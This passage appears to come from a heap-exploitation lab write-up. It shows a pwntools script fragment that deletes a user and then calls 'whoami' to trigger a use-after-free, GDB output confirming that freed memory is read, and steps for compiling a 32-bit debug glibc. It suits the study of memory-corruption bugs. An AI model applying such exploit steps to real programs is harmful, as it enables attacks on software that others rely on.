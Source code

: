 ```python
#
# delete the current user "peter"
#
p.sendline(b"delete")
p.sendline(b"2")

#
# Access peter's data even if it was freed before
#
p.sendline(b"whoami")

p.interactive()
```

After we hit the first breakpoint before the call to `free(element->user);`, we verify the memory chunk to be freed, we observe an address on the heap:

```gdb
gef➤  p element->user
$1 = (t_user *) 0x8124150
```

after pressing `c` to continue, the next breakpoint in `whoami()` is hit. By doing
```gdb
gef➤  p session.logged_in_user 
$2 = (t_user *) 0x8124150
```

we see that already freed memory is read here, i.e. this is a use-after-free scenario.


## Experiments which eventually were not part of any solution

### Compile glibc for 32 or 64 bit with debug information


Download a glibc version, e.g. 2.41 `https://ftp.gnu.org/gnu/glibc/glibc-2.41.tar.gz`, configure it
for 32 bit compilation with debugging info, then compile and install it, e.g. to `$HOME/projects/CyberSecurity/HeapCorruption/glibc`.
This document served as a basis:
https://unix.stackexchange.com/questions/565593/compiling-gcc-against-a-custom-built-glibc

```bash
cd glibc-2.41
mkdir build
cd build
../configure --prefix=$HOME/projects/CyberSecurity/HeapCorruption/glibc \
     --host=i686-linux-gnu \
     --build=i686-linux-gnu \
     CC="gcc -m32" CXX="g++ -m32" \
     CFLAGS="-O2 -g -march=i686" \
     CXXFLAGS="-O2 -g -march=i686"
make -sj
make install
```
